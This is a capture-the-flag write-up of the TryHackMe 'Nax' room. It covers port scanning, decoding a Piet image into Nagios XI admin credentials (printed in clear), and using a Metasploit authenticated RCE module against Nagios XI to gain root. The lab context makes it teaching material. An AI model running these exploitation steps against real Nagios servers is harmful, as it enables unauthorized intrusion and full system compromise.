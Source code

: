 # 33 - NAX \[npiet]

Room Link --> [https://tryhackme.com/room/nax](https://tryhackme.com/room/nax)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -Pn -n -p- -T5 -sS -vv 10.10.131.31

PORT      STATE    SERVICE        REASON
22/tcp    open     ssh            syn-ack ttl 63
25/tcp    open     smtp           syn-ack ttl 63
80/tcp    open     http           syn-ack ttl 63
389/tcp   open     ldap           syn-ack ttl 63
443/tcp   open     https          syn-ack ttl 63
5667/tcp  open     unknown        syn-ack ttl 63
```
{% endcode %}

Navigating to the webpage:

<figure><img src=".gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>

So i pasted the strange "elements" in google and saw many results relating to the "Periodic Table of the Elements"

So looking them up

<figure><img src=".gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" lineNumbers="true" %}
```bash
Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr
47 80 73 51 84 46 80 78 103

# /PI3T.PNG
```
{% endcode %}

Pasting the Decimal values in cyberchef and got a .png file.

<figure><img src=".gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

Downloading the png file: http://10.10.131.31/PI3T.PNg

Running Exiftool on the image:

`exiftool PI3T.PNg` .

<figure><img src=".gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

We use an online tool: `npiet` --> [https://www.bertnase.de/npiet/npiet-execute.php](https://www.bertnase.de/npiet/npiet-execute.php)

But i got an error after uploading the file, so we follow the hint and use gimp.

<figure><img src=".gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

Here we can see that we are trying to open the PI3T.PNg image into the gimp by clicking on the File Option from the Menu and then browsing to the location of the image.

![](https://i0.wp.com/1.bp.blogspot.com/-dFrxVFZ9gkw/YGIPyf9mkgI/AAAAAAAAvHg/mDb3640nuGsfnXgxStNkgrh5JJc63fG9wCLcBGAsYHQ/s16000/9.png?w=640\&ssl=1)

After loading the image be sure to make no changes and editing on the image as it can lead to corrupting the image. Just choose Save As option. This will open a window. Here we choose the PPM Image option that gives the image a .ppm extension.

![](https://i0.wp.com/1.bp.blogspot.com/-HeVqHo8f11Y/YGIP1XtlB3I/AAAAAAAAvHk/mi9swo1bscMY3O6U\_bAyhLk\_BTQ-wl4cQCLcBGAsYHQ/s16000/10.png?w=640\&ssl=1)

Gimp will ask you to state the Data Formatting. We tried to run it with both options with success but sometimes ASCII gave us some errors. So, to be sure, choose the Raw option and then click on Export.

![](https://i0.wp.com/1.bp.blogspot.com/-E7p\_x3ABAGQ/YGIP4fju5aI/AAAAAAAAvHo/4gvZZppowFEZ3fW9WOJNbI2QGsCsetlygCLcBGAsYHQ/s16000/11.png?w=640\&ssl=1)

At this moment we went back to the online interpreter and upload the ppm image. But for some reason, it gave us an error again. Tired of trying different gimmicks, we decided to get the interpreter from their [**GitHub**](https://github.com/gleitz/npiet) and try on our local machine. There was no release on GitHub which means we will have to build it. After cloning the repository, we change the directory and execute the configure file. It will set up all the prerequisites for building from source and create a makefile that we can use to build the application. All that is left is to run the make to create an executable.

```
git clone https://github.com/gleitz/npiet.git
cd npiet
./configure
make
```

![](https://i0.wp.com/1.bp.blogspot.com/-vog9EHwGwSw/YGIP7RquxXI/AAAAAAAAvHw/cPauvtNp8lQpCJZQus2Nj8F7\_imTyWQAwCLcBGAsYHQ/s16000/12.png?w=640\&ssl=1)

After running make, we list the contents of the directory to see that we have the npiet executable ready to use. We run it bypassing the PI3T.ppm image that we exported earlier. This gave us a big output but if we look closer it repeats after printing a set of characters. This is because the color blocks around the image area in a loop that prints the same string again and again. Upon closer inspection, we found that it was a set of credentials with the username nagiosadmin.

```bash
ls
./npiet -e 1000 ~/Nax/PI3T.ppm
nagiosadmin : n3p3UQ&9BjLp4$7uhWdY
```

We can authenticate with the creds: [http://10.10.16.110/nagiosxi/login.php](http://10.10.16.110/nagiosxi/login.php)

<figure><img src=".gitbook/assets/image (248).png" alt=""><figcaption></figcaption></figure>

w look at the description and you’ll find the CVE number:

<figure><img src="https://miro.medium.com/v2/resize:fit:403/1*C3k3AfrgxA4pj4PAdqso5A.png" alt="" height="201" width="586"><figcaption></figcaption></figure>

Search for exploit using **metasploit:**

search Nagiox XI

<figure><img src=".gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

But the answer for the page is

`exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce` .

fill the options:

```
use exploit/linux/http/nagios_xi_authenticated_rce
set RHOSTS
set RPORT
set LHOST
set PASSWORD
run
```

We get root.
